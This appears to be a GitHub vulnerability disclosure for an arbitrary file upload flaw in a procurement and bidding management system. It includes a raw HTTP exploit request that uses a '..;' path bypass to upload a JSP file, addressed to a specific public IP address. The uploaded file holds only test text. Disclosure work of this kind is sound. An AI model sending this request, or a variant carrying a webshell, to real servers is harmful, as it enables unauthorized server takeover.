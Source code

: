 # Procurement-and-bidding-management-system
There is an arbitrary file upload vulnerability in the procurement and bidding management system
Recurrence of vulnerabilities
1.Problem Description 

There is an arbitrary file upload vulnerability in the procurement and bidding management system of Guangdong Guangling Information Technology Co., Ltd., which can be exploited by attackers to control server permissions.

2.Case reproduction As shown, this is a test site
![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/51b72abc-c6d8-4dc6-b25e-4082ac71867e)

3.Upload a 1. JSP file with the content of test by constructing malicious data packets

![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/11ced168-2ef7-4f3d-9162-04446305b6b8)

4.Accessing uploaded files

![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/b2e758ff-5073-4daa-932f-a61fe10d05e5)


5.Vulnerability exploit packets

POST //api/..;/commonController.do?parserXml HTTP/1.1
Host: 219.222.48.58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: siteTitle=%E6%B1%9F%E8%8B%8F%E4%BC%98%E6%89%AC%E8%8D%AF%E4%B8%9A%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8; JSESSIONID=00427D97395E082CCCD88C7A8B6A85C3
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Length: 183

------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: text/plain

test
------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm—


6.Affected version:=V1.0
